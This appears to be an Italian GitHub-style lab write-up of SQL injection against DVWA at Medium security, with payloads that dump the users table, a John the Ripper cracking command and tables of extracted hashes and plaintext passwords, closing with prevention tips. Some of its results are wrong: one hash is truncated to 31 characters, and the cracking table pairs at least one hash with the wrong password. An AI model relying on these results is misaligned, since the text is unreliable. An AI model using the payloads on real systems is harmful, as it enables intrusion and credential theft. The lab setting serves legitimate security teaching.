 # SQL Injection Exploit su DVWA (Livello di Sicurezza Medium)

## Panoramica
Questo progetto documenta il processo di sfruttamento di una vulnerabilità **SQL Injection** nella **Damn Vulnerable Web Application (DVWA)** al livello di sicurezza **Medium**. L'obiettivo era estrarre dati sensibili, inclusi le credenziali degli utenti, e dimostrare come decodificare gli hash delle password.

## Obiettivi
1. Sfruttare la vulnerabilità SQL Injection.
2. Estrarre le credenziali degli utenti dal database.
3. Decodificare gli hash delle password per ottenere le password in chiaro.
4. Utilizzare le credenziali decodificate per accedere all'applicazione web.

---

## Configurazione dell'Ambiente
### Configurazione del Laboratorio:
- **Host DVWA:** 192.168.13.150 (Metasploitable)
- **Host Kali Linux:** 192.168.13.100
- **Livello di Sicurezza:** Medium

### Prerequisiti:
1. DVWA in esecuzione su Metasploitable.
2. Sezione SQL Injection attivata.
3. Credenziali di accesso a DVWA:
   - **Username:** admin  
   - **Password:** password

---

## Passaggi dell'Exploit

### 1. Identificazione della Vulnerabilità
- Accedi alla sezione SQL Injection di DVWA.
- Testa con payload semplici come:
  ```sql
  1'
  ```
- Si è osservato che a livello Medium alcuni caratteri vengono sanitizzati.

### 2. Aggirare i Filtri con la Codifica Esadecimale
- Utilizza un payload in formato esadecimale per bypassare la sanitizzazione degli input:
  ```sql
  0x27 OR 1=1 --
  ```
- Risultati:
  Dati utente estratti dal database.

### 3. Estrazione di Dati Sensibili
- Usato SQL Injection per enumerare il database:
  - Elenco di utenti e hash delle password:
    ```sql
    0x27 UNION SELECT user, password FROM users --
    ```
  - Risultati:
    | Username  | Hash Password                             |
    |-----------|------------------------------------------|
    | admin     | 5f4dcc3b5aa765d61d8327deb882cf99         |
    | gordonb   | e99a18c428cb38d5f260853678922e03         |
    | 1337      | 8d3533d75ae2c396d7e0d4fcc69216b         |
    | pablo     | 0d107d09f5bbe40cade3de5c71e9e9b7         |
    | smithy    | 5f4dcc3b5aa765d61d8327deb882cf99         |

### 4. Decodifica degli Hash delle Password
- Salvati gli hash in un file `hashes.txt`.
- Utilizzato **John the Ripper** per decodificare gli hash:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  ```
- Risultati:
  | Hash                                     | Password Decodificata |
  |------------------------------------------|-----------------------|
  | 5f4dcc3b5aa765d61d8327deb882cf99         | password              |
  | e99a18c428cb38d5f260853678922e03         | 123456                |
  | 8d3533d75ae2c396d7e0d4fcc69216b         | abc123                |
  | 0d107d09f5bbe40cade3de5c71e9e9b7         | letmein               |

### 5. Utilizzo delle Credenziali per Accedere
- Effettuato il login con **pablo** utilizzando la password **letmein**.

---

## Conclusione
- La vulnerabilità SQL Injection ha permesso di estrarre dati sensibili al livello Medium.
- Gli hash delle password sono stati decodificati, rivelando password in chiaro e consentendo l'accesso agli account utente.

### Punti Chiave
- **Codifica esadecimale** efficace per aggirare la sanitizzazione degli input.
- Gli hash delle password sono vulnerabili a attacchi basati su dizionari se si utilizzano algoritmi deboli come MD5.

### Raccomandazioni per la Prevenzione
1. Utilizzare **query parametrizzate** per prevenire SQL Injection.
2. Adottare **algoritmi di hashing robusti** (es. bcrypt, Argon2).
3. Applicare **validazione degli input** su tutti i dati forniti dall'utente.
4. Limitare i privilegi del database per ridurre l'impatto di eventuali attacchi.

---

## Disclaimer
Questo progetto è stato condotto in un ambiente di laboratorio controllato a scopo educativo. Non tentare di sfruttare vulnerabilità su sistemi che non possiedi o per i quali non hai ottenuto esplicita autorizzazione.

---

✨ **Grazie per aver letto!** 🚀
